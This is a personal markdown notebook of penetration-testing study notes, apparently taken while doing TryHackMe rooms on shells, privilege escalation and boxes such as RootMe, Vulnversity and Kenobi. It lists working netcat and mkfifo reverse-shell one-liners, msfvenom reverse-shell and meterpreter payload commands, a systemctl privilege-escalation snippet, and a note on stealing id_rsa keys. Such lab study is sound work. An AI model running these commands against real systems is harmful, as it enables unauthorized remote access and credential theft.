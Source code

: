 # R

* Remember for web/general/security
* .todo: metasploit dns
* .todo: web
* web general | terminology | URL may have to be moved
* explose hacking_process

<hr>

## Prev esc

https://tryhackme.com/room/linprivesc
=> hint/notes
=> network

* https://tryhackme.com/room/introtoshells
* If there are tools not installed on your target: https://github.com/andrew-d/static-binaries
* nc ip port -e /bin/bash (rev shell)
* nc -lvnp port -e /bin/bash (bind shell)
* this is not included in most versions of netcat
* `mkfifo /tmp/f; nc XXX < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f` (listener for our wxw shell)
* https://tryhackme.com/room/introtoshells (Windows)
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-traditional
* `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`
* staged reverse shell payloads and stageless
* exploit/multi/handler
  * It's essential if you want to use Meterpreter shells, and is the go-to when using staged payloads
  * `set PAYLOAD X`
  * `exploit -j`
* socat is a sort of ncat+more, but not installed by default, and harder to learn.
  * Read again the section: https://tryhackme.com/room/introtoshells
  * Can encrypt, may bypass an IDS: https://tryhackme.com/room/introtoshells
* Socat: transfer the socat binary
* Reverse shells/... note lasty

<hr>

## Overconfidence

--- https://tryhackme.com/room/rrootme

* `msfvenom -p php/reverse_php LHOST=tun0 LPORT=4455 -o revshell.php`
* exploit/multi/handler
* `msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4455 -o revshell2.php`
* `msfvenom -p php/meterpreter_reverse_tcp LHOST=tun0 LPORT=4455 -o revshell3.php5`
* `sudo bash -c "id"`
* https://www.revshells.com/
* TL;DR. Nothing explained to improve the shell worked. Could not run python commands, the shell was crashing. Had to use a web shell to run python commands. The meterpreter didn't work "as expected". The reverse tcp worked but it wasn't a good experience.
* writeups

--- https://tryhackme.com/room/vulnversity

* Capture a request uploading a file
* Intruder to test which filetype is not blocked
* `msfvenom -p php/reverse_php LHOST=tun0 LPORT=4444 -o mrevshell.phtml`
  * No one can make it work!!!
* `msfvenom -p php/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -o mrevshell_php_rtcp.phtml`

```bash
TF=$(mktemp).service
echo "[Service]
Type=oneshot
ExecStart=/bin/sh -c '$@ > /tmp/output'
[Install]
WantedBy=multi-user.target" > $TF
systemctl -f link $TF
systemctl -f enable --now $TF
cat /tmp/output
```

* `git clone https://github.com/brightio/penelope.git`
* `python penelope.py`

--- https://tryhackme.com/room/basicpentestingjt
--- https://tryhackme.com/room/kenobi

* `smbclient //10.10.12.68/Anonymous -U Anonymous/`
* From what I understood, on port 111, there is rcpbind that can indicate which port is providing a service given a protocol number
* `sudo nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.12.68`
* There was a failure in ProFtpd  that allowed users to move files from a non-mounted path to the mounted path. Could steal id_rsa.